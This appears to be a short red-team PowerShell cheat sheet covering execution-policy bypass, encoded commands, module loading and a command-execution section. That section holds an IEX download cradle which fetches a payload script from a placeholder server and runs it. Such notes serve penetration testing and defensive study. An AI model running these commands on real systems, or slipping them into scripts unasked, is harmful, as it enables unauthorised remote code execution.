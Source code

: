## Basics:  

**Check Execution Policy**:  
1. Get-ExecutionPolicy  

**Bypass execution policy**:  
1. powershell -executionpolicy bypass .\script.ps1  
2. powershell -c <cmd>  
3. powershell -enc  
  
**Import Modules**:  
1. . .\script.ps1  
2. Import-Module <path to script>  

**List Available modules**:  
1. Get-Module -ListAvailable  

** All commands in the module**:  
1. Get-Command -Module <module name>  
  
## Command Execution Variants:  
**IEX**:  (**!= OPSEC**)
1. iex (New-Object Net.webClient).DownloadString('http://server/payload.ps1')  
  
